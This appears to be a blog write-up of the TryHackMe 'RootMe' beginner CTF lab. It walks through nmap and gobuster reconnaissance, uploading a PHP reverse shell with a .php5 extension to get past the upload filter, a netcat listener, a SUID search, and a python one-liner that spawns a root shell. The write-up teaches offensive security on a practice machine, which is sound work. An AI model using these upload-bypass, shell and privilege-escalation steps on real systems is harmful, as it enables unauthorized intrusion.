 +++
title = 'Root Me - CTF'
date = 2021-02-12
draft = false
url = "/blog/"
tags = ["writeup","CTF"]
+++

# Try Hack Me - RootMe
A ctf for beginners, can you root me?
<br>
---
## Reconnaissance
1. Scan the machine, how many ports are open?
	Here is the nmap scann commands that I am going to be using.
	```
	nmap -sC -sV -T4 -A -oN nmap/result <IP>
	```
	Breakdown:
	```
	-A: do an extensive scan on these ports

	-sC: Scan with default NSE scripts. Considered useful for discovery and safe

	-sV: Attempts to determine the version of the service running on port

	-T4: speed of nmap scan is 4/5 (personal preference of mine)

	-oN: Normal output to the file normal.file
	```
2. What version of Apache is running?
		Let's review out nmap scans and see if we are able to find what version of Apache we are running.
	```
	Host is up (0.14s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
	|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
	|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: HackIT - Home
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```

3. What service is running on port 22?
	If you review the resutls fo the nmap scan you will see that there is a service running on port 22.
 4. Find directories on the web server using the GoBuster tool.
 	We are going to run the following gobuster command to search for the hidden directory that they want us to find.
	 ```
	 gobuster dir -t 40 -u <IP> -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
	 ```
	 Breakdown:
	 ```
	-u: Full URL (including scheme), or base domain name.

	-t: Thread Usage, declare how mand thread you would like gobuster to use. (Default is 10)

	-w: Path to the wordlist used for brute forcing (use – for stdin)
	```

 5. What is the hidden directory?
	 Do any of these directiores stand out!
	 ```
	 ===============================================================
	Gobuster v3.0.1
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://<IP>/
	[+] Threads:        40
	[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2021/02/11 19:14:32 Starting gobuster
	===============================================================
	/uploads (Status: 301)
	/css (Status: 301)
	/js (Status: 301)
	/panel (Status: 301)
	Progress: 23943 / 220561 (10.86%)^C
	[!] Keyboard interrupt detected, terminating.
	===============================================================
	2021/02/11 19:15:44 Finished
	===============================================================

	 ```
---
## Getting a shell
1. Find a form to upload and get a reverse shell, and find the flag.
	In out last question we found a hidden directory.
	Let's open up our browser and got the following `http:\\<IP>\uploads`
<!--{{< figure src="/img/rootme/1.png" width="200">}}-->

{{< figure img src="/img/rootme/1.png" width="200">}}

.img:hover{
    color: #424242; 
  -webkit-transition: all .3s ease-in;
  -moz-transition: all .3s ease-in;
  -ms-transition: all .3s ease-in;
  -o-transition: all .3s ease-in;
  transition: all .3s ease-in;
  opacity: 1;
  transform: scale(1.15);
  -ms-transform: scale(1.15); /* IE 9 */
  -webkit-transform: scale(1.15); /* Safari and Chrome */

}

	Now lets try and upload a php reverse shell.  
	[Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) is a great resourse for us to use.
	Now that we have our reverse shell let's add the ip address of our device into it and pick out a port we want to listen in on.
	Ok, lets try and upload our reverse shell... It looks like are now able to upload our file.
{{< figure src="/img/rootme/2.png" width="200">}}
	How about we change the extention from PHP to PHP5 and then try again.
	How about them apples, it uploaded. 
	Before we try and excute our payload lets set up a netcat listener.
	`nc -nlvp <port#>`
	Once our listener has been set up lets pull the trigger on our reverse shell and see if a connection can be made.
{{< figure src="/img/rootme/3.png" width="200">}}
BOOM!! We have a connection.
The next thing we need to do is find the user.txt file.
I tried looking in all the stander places like the current user directory and in the home directory but I did not have any luck.
So I decided to use the find command `find / -type f -name user.txt 2> /dev/null`
With this command I was able to locate where our user.txt file is. 
Now all we need to do is cat out the content of our user.txt file and we will have our flag.  

Breakdown:
```
* -type f – you are telling find to look exclusively for files
* -name user.txt – instructing the find command to search for a file with the name “user.txt”
* 2> /dev/null – so error messages do not show up as part of the search result 
```


## Privilege escalation
---
1. Search for files with SUID permission, which file is weird?
	Again here we are going to be using the `find` command to help us locate our file with a weird SUID permission.
```
find / -type f -user root -perm -u=s 2> /dev/null_**
```
Now how can use leverage this what we have found to escalate out privileges to a root shell.
[GTFO Bins](https://gtfobins.github.io/gtfobins/python/#suid) is another great resourse that we can use. 
Let's head over there and look up the SUID for python.
It seems that we are that we are able to use the code below to gain a root shell.
````
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
````
2. root.txt
	One we have verified that we are actually running as root we will just need to cat out the content of out root.txt file.
`cat /root/root.txt`

# Congratulations you have just completed the RootMe challenge from TryHackMe!
